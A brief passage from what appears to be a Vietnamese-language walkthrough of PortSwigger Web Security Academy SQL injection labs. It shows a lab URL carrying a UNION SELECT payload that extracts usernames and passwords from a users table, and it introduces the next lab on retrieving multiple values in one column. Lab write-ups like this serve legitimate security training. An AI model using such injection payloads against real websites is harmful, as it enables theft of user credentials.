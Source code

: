 ![Database từ users table](sqli-union-attack/database-users-table.jpg)
'
`Payload: "https://ac1c1fcf1ef5e8c8c0a17e340047008c.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+username,password+FROM+users--"`

![Solved SQLi finding other table](sqli-union-attack/solved-union-attack-finding-other-table.jpg)

### Lab: SQL injection UNION attack, retrieving multiple values in a single column <a name="union-attack-retrieving-multiple-value"></a>

Đường dẫn đến lab [ở đây](https://portswigger.net/web-security/union-attacks/lab-retrieve-multiple-values-in-single-column)
